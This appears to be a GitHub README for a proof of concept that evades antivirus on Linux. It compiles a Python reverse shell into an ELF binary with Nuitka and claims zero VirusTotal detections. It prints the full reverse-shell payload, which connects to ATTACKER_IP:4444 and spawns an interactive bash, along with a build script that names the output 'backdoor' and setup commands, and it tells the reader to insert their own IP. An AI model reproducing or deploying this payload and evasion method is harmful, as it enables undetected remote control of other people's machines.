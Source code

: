 # 🛡️ Undetected ELF Payload (AV Bypass) via Python Compilation (Nuitka Only)

This proof-of-concept demonstrates a method to bypass antivirus detection on Linux by compiling a Python reverse shell into an ELF binary using [Nuitka](https://github.com/Nuitka/Nuitka). The compiled payload remains undetected by major antivirus engines, including on VirusTotal.

> 📌 CVE submission in progress.

---

## 🚀 Summary

- 💻 Payload: Python reverse shell
- ⚙️ Method: Python → ELF using Nuitka only
- 🧩 Obfuscation: No extra strip or packing applied
- 🛡️ Result: 0 detections on VirusTotal (at the time of testing)

---

## 📦 PoC Files

| File | Description |
|------|-------------|
| `payload.py` | Python reverse shell |
| `build.sh` | Simple build script using Nuitka |
| `dist/payload` | Final compiled ELF binary |
| `vt-scan.jpg` | VirusTotal scan result showing 0 detections |
| `backdoor` | The Backdoor in the virus total sha256: df60a181ceba07d35350fb7d754f239685996b40ea24d155a82344f7fd52b651

---

## 🧪 Tested Against

- ✅ VirusTotal (0/65 engines detected)
- ✅ Kaspersky Linux Endpoint
- ✅ ClamAV
- ✅ Windows Defender (via WSL)

---
## Proof of Concept

The following scan result shows no AV detected the compiled ELF:

![VirusTotal Scan](https://raw.githubusercontent.com/00xCanelo/ELF-AV-Bypass/refs/heads/main/vt-scan.png)

---
## 🔧 Build Instructions

```bash
sudo apt update
sudo apt install python3 python3-pip gcc g++ -y
pip3 install nuitka

# Compile the Python file into an ELF binary
bash build.sh
```
---
## 🐍 payload.py
```bash
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKER_IP",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash","-i"])
```
Replace ATTACKER_IP with your ip 
---
## 🔨 build.sh
```bash
#!/bin/bash

python -m nuitka --onefile --standalone --remove-output --output-filename=backdoor backdoor.py
mkdir -p dist
mv backdoor dist/payload
```
---
👤 Credits

Discovered and developed by:
Mohamed Aly (00xCanelo)
🔗 https://github.com/00xCanelo


